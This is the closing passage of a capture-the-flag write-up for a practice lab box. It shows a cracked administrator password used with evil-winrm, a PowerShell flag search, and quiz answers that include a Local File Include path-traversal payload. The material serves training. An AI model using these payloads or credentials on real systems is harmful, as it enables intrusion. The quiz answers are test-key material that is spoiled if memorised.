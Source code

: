 There we go... `Administrator:badminton`. Time to exploit.

### WinRM
`winrm` (Windows Remote Management) is a protocol that allows devices to access a system remotely. `evil-winrm` is a tool that allows us to connect to a windows machine and still be able to use `Powershell` on `Linux`. 

```shell {linenos=false}
$ evil-winrm -i 10.129.245.210 -u Administrator -p badminton
```

We are in. Now we can run a PowerShell command to look for the flag so we don't have to!

```shell {linenos=false}
> Get-ChildItem -Path C:\ -Filter flag.txt -Recurse
```

Box popped. 

![responder](images/responder.png#center)

### Questions
- When visiting the web service using the IP address, what is the domain that we are being redirected to? 
`unika.htb`
- Which scripting language is being used on the server to generate webpages? 
`php`
- What is the name of the URL parameter which is used to load different language versions of the webpage? 
`page`
- Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 
`../../../../../../../../windows/system32/drivers/etc/hosts`